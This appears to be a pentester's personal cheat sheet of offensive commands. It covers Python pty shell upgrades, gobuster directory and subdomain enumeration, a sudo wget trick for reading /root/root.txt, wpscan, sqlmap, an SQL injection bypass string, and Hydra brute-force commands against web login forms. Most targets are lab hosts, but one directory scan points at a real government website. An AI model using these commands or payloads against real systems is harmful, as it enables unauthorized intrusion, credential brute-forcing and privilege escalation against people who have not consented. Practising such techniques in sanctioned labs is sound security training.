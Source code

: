 ### upgrading shells

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

/bin/sh -i
```

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

### subdomain enumeration gobuster
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 


go buster status code : `gobuster dir -u https://www.jmicc.gov.pk/ -w /usr/share/wordlists/dirb/common.txt -b '403,404'`

using wget to reveal the text as /root/root

sudo wget --input-file /root/root.txt

https://gtfobins.github.io/

wpscan --url https://brainfuck.htb --disable-tls-checks

https://rumkin.com/tools/cipher/ for ciphers

`sqlmap -r login.req`

sqlinjection try: `admin'-- -`

Using Hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```
